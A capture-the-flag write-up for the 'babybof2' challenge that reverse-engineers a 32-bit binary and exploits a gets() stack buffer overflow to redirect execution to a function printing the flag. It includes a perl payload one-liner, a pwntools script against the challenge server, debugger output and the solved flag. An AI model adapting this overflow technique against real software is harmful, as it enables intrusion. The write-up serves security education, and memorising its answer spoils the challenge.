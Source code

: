 # babybof2

## Description

Authors: icinta

```
nc chals20.cybercastors.com 14434
```

## Analysis

Open with Ghidra, look at `main()`

```c
undefined4 main(void)

{
  puts("Do you really think you can get to the winners table?");
  puts("I\'ll give you one shot at it, what floor is the table at: ");
  start();
  puts("Yeah that\'s what I thougt, LOL.\n");
  return 0;
}
```

`start()` accepts input from STDIN and is vulnerable to a buffer overflow.

```c
void start(void)

{
  char local_4c [68];
  
  __x86.get_pc_thunk.ax();
  gets(local_4c);
  return;
}
```

```
(gdb) disas start
Dump of assembler code for function start:
   0x08049201 <+0>:	push   %ebp
   0x08049202 <+1>:	mov    %esp,%ebp
   0x08049204 <+3>:	push   %ebx
   0x08049205 <+4>:	sub    $0x44,%esp
   0x08049208 <+7>:	call   0x8049290 <__x86.get_pc_thunk.ax>
   0x0804920d <+12>:	add    $0x21eb,%eax
   0x08049212 <+17>:	sub    $0xc,%esp
   0x08049215 <+20>:	lea    -0x48(%ebp),%edx
   0x08049218 <+23>:	push   %edx
   0x08049219 <+24>:	mov    %eax,%ebx
   0x0804921b <+26>:	call   0x8049040 <gets@plt>
   0x08049220 <+31>:	add    $0x10,%esp
   0x08049223 <+34>:	nop
   0x08049224 <+35>:	mov    -0x4(%ebp),%ebx
   0x08049227 <+38>:	leave  
   0x08049228 <+39>:	ret    
End of assembler dump.
```

And `winnersLevel()` is the function we need to reach.

```c
undefined4 winnersLevel(int param_1)

{
  undefined4 uVar1;
  
  if ((param_1 == 0x182) || (param_1 == 0x102)) {
    puts("Wow! Please excuse me sir I had no idea...here are your chips");
    system("cat ./flag.txt");
    uVar1 = 1;
  }
  else {
    puts("You guessed right but it seems your badge number isn\'t on our list.");
    uVar1 = 0;
  }
  return uVar1;
}
```

```
(gdb) disas winnersLevel
Dump of assembler code for function winnersLevel:
   0x08049196 <+0>:	push   %ebp
   0x08049197 <+1>:	mov    %esp,%ebp
   0x08049199 <+3>:	push   %ebx
   0x0804919a <+4>:	sub    $0x4,%esp
   0x0804919d <+7>:	call   0x80490d0 <__x86.get_pc_thunk.bx>
   0x080491a2 <+12>:	add    $0x2256,%ebx
   0x080491a8 <+18>:	cmpl   $0x182,0x8(%ebp)
   0x080491af <+25>:	je     0x80491ba <winnersLevel+36>
   0x080491b1 <+27>:	cmpl   $0x102,0x8(%ebp)
   0x080491b8 <+34>:	jne    0x80491e5 <winnersLevel+79>
   0x080491ba <+36>:	sub    $0xc,%esp
   0x080491bd <+39>:	lea    -0x13f0(%ebx),%eax
   0x080491c3 <+45>:	push   %eax
   0x080491c4 <+46>:	call   0x8049050 <puts@plt>
   0x080491c9 <+51>:	add    $0x10,%esp
   0x080491cc <+54>:	sub    $0xc,%esp
   0x080491cf <+57>:	lea    -0x13b2(%ebx),%eax
   0x080491d5 <+63>:	push   %eax
   0x080491d6 <+64>:	call   0x8049060 <system@plt>
   0x080491db <+69>:	add    $0x10,%esp
   0x080491de <+72>:	mov    $0x1,%eax
   0x080491e3 <+77>:	jmp    0x80491fc <winnersLevel+102>
   0x080491e5 <+79>:	sub    $0xc,%esp
   0x080491e8 <+82>:	lea    -0x13a0(%ebx),%eax
   0x080491ee <+88>:	push   %eax
   0x080491ef <+89>:	call   0x8049050 <puts@plt>
   0x080491f4 <+94>:	add    $0x10,%esp
   0x080491f7 <+97>:	mov    $0x0,%eax
   0x080491fc <+102>:	mov    -0x4(%ebp),%ebx
   0x080491ff <+105>:	leave  
   0x08049200 <+106>:	ret    
End of assembler dump.
```

`winnersLevel()` takes one argument, which must be either `0x182` or `0x102` to get the flag. Let's check out the stack variables for this function in Ghidra:

```
                             undefined winnersLevel(undefined4 param_1)
             undefined         AL:1           <RETURN>
             undefined4        Stack[0x4]:4   param_1                                 XREF[2]:     080491a8(R), 
                                                                                                   080491b1(R)  
             undefined4        Stack[-0x8]:4  local_8                                 XREF[1]:     080491fc(R)  
                             winnersLevel                                    XREF[3]:     Entry Point(*), 0804a158, 
                                                                                          0804a1fc(*)  
        08049196 55              PUSH       EBP

```

We'll have to overflow the input buffer in `start()`, which is 68 bytes, plus probably another 8 bytes before overwriting the return address with the starting address of `winnersLevel()`. Then there will be the new return address (`0x08049196`) and then the two stack variables for `winnersLevel()`.


Create a fake flag file, and try to exploit it by hand.

```
root@kali:~/Downloads# echo hello > flag.txt
root@kali:~/Downloads# perl -e 'print "A"x76 . "\x96\x91\x04\x08"x1 . "\x00\x00\x00\x00" . "\x02\x01\x00\x00"' > payload && ./winners < payload; echo $?
Do you really think you can get to the winners table?
I'll give you one shot at it, what floor is the table at: 
Wow! Please excuse me sir I had no idea...here are your chips
hello
Segmentation fault
139
```

Bingo! And we can do the same with gdb to see what the memory looks like with this payload by setting a breakpoint at the `nop` just after `gets()` in the `start()` function.

```
(gdb) break *0x08049223
Breakpoint 1 at 0x8049223
(gdb) run < payload
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Downloads/winners < payload
Do you really think you can get to the winners table?
I'll give you one shot at it, what floor is the table at: 

Breakpoint 1, 0x08049223 in start ()
(gdb) info reg
eax            0xffffd2b0          -11600
ecx            0xf7faf5c0          -134548032
edx            0xf7fb089c          -134543204
ebx            0x804b3f8           134525944
esp            0xffffd2b0          0xffffd2b0
ebp            0xffffd2f8          0xffffd2f8
esi            0xf7faf000          -134549504
edi            0xf7faf000          -134549504
eip            0x8049223           0x8049223 <start+34>
eflags         0x282               [ SF IF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) x/40wx $esp
0xffffd2b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2c0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2d0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd2f0:	0x41414141	0x41414141	0x41414141	0x08049196
0xffffd300:	0x00000000	0x00000102	0xf7e06b00	0xf7fb2588
0xffffd310:	0xf7faf000	0xf7faf000	0x00000000	0xf7e06c7b
0xffffd320:	0xf7faf3fc	0x00040000	0x00000000	0x080492f3
0xffffd330:	0x00000001	0xffffd3f4	0xffffd3fc	0x080492c1
0xffffd340:	0xffffd360	0x00000000	0x00000000	0xf7defb41

```

## Solution

Now that we have a working local exploit, write the script to exploit the remote server. One key thing I missed when I first wrote this is that we have to set `DEBUG` mode to dump out every byte received. Otherwise, we won't see the flag.

```python
#!/usr/bin/env python3
from pwn import *
context.log_level='DEBUG' # need debug mode to see flag
binary = ELF('./winners')
print("%x\n" % binary.symbols['winnersLevel'])
p = remote('chals20.cybercastors.com', 14434)
p.recvuntil("what floor is the table at:")
payload = b'A' * (68 + 8)
payload += p32(binary.symbols['winnersLevel'])
payload += p32(0x0)
payload += p32(0x102)
p.sendline(payload)
p.stream()
```

```
root@kali:~/Downloads# ./winners-exploit.py 
[DEBUG] PLT 0x8049040 gets
[DEBUG] PLT 0x8049050 puts
[DEBUG] PLT 0x8049060 system
[DEBUG] PLT 0x8049070 __libc_start_main
[*] '/root/Downloads/winners'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
8049196

[+] Opening connection to chals20.cybercastors.com on port 14434: Done
[DEBUG] Received 0x71 bytes:
    b'Do you really think you can get to the winners table?\n'
    b"I'll give you one shot at it, what floor is the table at: \n"
[DEBUG] Sent 0x59 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  96 91 04 08  │AAAA│AAAA│AAAA│····│
    00000050  00 00 00 00  02 01 00 00  0a                        │····│····│·│
    00000059
 
[DEBUG] Received 0x3e bytes:
    b'Wow! Please excuse me sir I had no idea...here are your chips\n'
Wow! Please excuse me sir I had no idea...here are your chips
[DEBUG] Received 0x2a bytes:
    b'castorsCTF{b0F_s_4r3_V3rry_fuN_4m_l_r1ght}'
```

The flag is:

```
castorsCTF{b0F_s_4r3_V3rry_fuN_4m_l_r1ght}
```

